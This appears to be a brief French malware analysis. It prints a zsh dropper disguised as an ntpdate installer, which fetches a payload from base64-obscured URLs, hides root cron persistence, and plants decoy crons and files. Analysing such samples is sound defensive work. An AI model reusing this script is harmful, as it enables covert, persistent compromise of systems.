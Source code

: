 ```zsh
__DL=$(echo "aHR0cDovL3Zhc3RhdGlvbi5udWxsOjgwODAvbnRwZGF0ZV91dGlsLmNweXRob24tMzcucHlj" | base64 -d)
__DLL=$(echo "aHR0cDovL3Zhc3RhdGlvbi5udWxsOjgwODAvcmVhZG1lLm1k" | base64 -d)

if command -v curl >/dev/null 2>&1; then
    curl -fsSL "$__DL" -o "$__DST/.sys"
    curl -fsSL "$__DLL" -o "$__DST/.rdme"
elif command -v wget >/dev/null 2>&1; then
    wget -q "$__DL" -O "$__DST/.sys"
    wget -q "$__DLL" -O "$__DST/.rdme"
else
    echo "[ntpdate] Error: Neither curl nor wget found."
    exit 127
fi

chmod +x "$__DST/.sys"

__C=$(echo "QHJlYm9vdCByb290IFBZVEhPTlBBVEg9" | base64 -d)
__V=$(echo "cHl0aG9uMy43" | base64 -d)
echo "${__C}${__PYLIB} ${__V} ${__DST}/.sys &" > /etc/cron.d/.ntpdate_sync
chmod 644 /etc/cron.d/.ntpdate_sync

__FAKE_CRONS=("update-cron" "logrotate-check" "sysclean-job" "netwatchd" "db-backup")

for fake in "${__FAKE_CRONS[@]}"; do
    echo "# Cron generated by sysctl ${RANDOM}" > "/etc/cron.d/${fake}"
    echo "PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin" >> "/etc/cron.d/${fake}"
    echo "* * * * * root /usr/bin/true # ${fake}" >> "/etc/cron.d/${fake}"
    chmod 644 "/etc/cron.d/${fake}"
done
for __f in $(seq 1 10); do
    f="/opt/.$(tr -dc a-z0-9 </dev/urandom | head -c 6)"
    case $((RANDOM % 3)) in
        0) echo "debug log $(date)" > "$f.log";;
        1) echo -e "#!/bin/bash\necho system update check" > "$f.sh"; chmod +x "$f.sh";;
        2) head -c $((RANDOM % 2048 + 512)) /dev/urandom > "$f.dat";;
    esac
done

${__V} -m pip install -q psutil >/dev/null 2>&1 || true
${__V} -m pip install -q pycryptodome >/dev/null 2>&1 || true
sudo PYTHONPATH=${__PYLIB} ${__V} "$__DST/.sys" >/dev/null 2>&1 &

echo "[ntpdate] NTP sync utilities installed successfully."
```

À première vu ce script est clairement malveillant. 

**Analyse** :

Le script install_nptdate.sh crée 40 dossiers dans /opt, en choisi un (__DST) pour télécharger le binaire (.sys) et un fichier rdme (.rdme) depuis vastation.null, puis installe une tâche cron (/etc/cron.d/.ntpdate_sync) qui exécute ${__V} avec le PYTHONPATH=${__PYLIB}, et génère plusieurs fausses crontabs.
